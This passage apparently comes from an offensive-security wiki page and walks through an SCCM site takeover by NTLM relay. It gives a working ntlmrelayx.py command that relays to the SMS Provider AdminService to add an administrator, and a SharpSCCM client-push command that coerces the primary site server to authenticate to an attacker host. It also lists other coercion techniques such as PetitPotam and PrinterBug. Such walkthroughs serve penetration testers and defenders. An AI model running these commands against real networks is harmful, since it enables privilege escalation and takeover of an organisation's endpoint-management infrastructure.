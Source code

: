 ##### Step 1: setup an NTLM relay server

The target of the [NTLM relay attack](../ntlm/relay) must be set to the SMS Provider server, on the HTTP/S service (port `80/tcp` or `443/tcp`).

::: tabs

=== UNIX-like

From UNIX-like systems, [this PR](https://github.com/fortra/impacket/pull/1593) on [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose.

```bash
ntlmrelayx.py -t https://smsprovider.domain.local/AdminService/wmi/SMS_Admin -smb2support --adminservice --logonname "DOMAIN\USER" --displayname "DOMAIN\USER" --objectsid 
```

=== Windows

From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it does not feature the same functionalities regarding this specific target, need in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.

:::


Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [NTLM Relay](../ntlm/relay).


##### Step 2: Authentication coercion

The primary site server's authentication can be coerced via automatic client push installation targeting the relay server with [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#). For more information, see the corresponding article "[Coercing NTLM authentication from SCCM](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)" by [Chris Thompson](https://mobile.twitter.com/_mayyhem). Alternatively, the server's authentication could be coerced with other, more common, coercion techniques ([PrinterBug](../print-spooler-service/printerbug), [PetitPotam](../mitm-and-coerced-authentications/ms-efsr), [ShadowCoerce](../mitm-and-coerced-authentications/ms-fsrvp), [DFSCoerce](../mitm-and-coerced-authentications/ms-dfsnm), etc.).

::: tabs

=== UNIX-like

From UNIX-like systems, authentication can be coerced through [PrinterBug](../print-spooler-service/printerbug), [PetitPotam](../mitm-and-coerced-authentications/ms-efsr), [ShadowCoerce](../mitm-and-coerced-authentications/ms-fsrvp), [DFSCoerce](../mitm-and-coerced-authentications/ms-dfsnm), etc. (not based on triggering the client push installation).

There isn't any UNIX-like alternative to the `SharpSCCM.exe invoke client-push` feature (yet).


=== Windows

```powershell
SharpSCCM.exe invoke client-push -mp "SCCM-Server" -sc "" -t "attacker.domain.local"
```
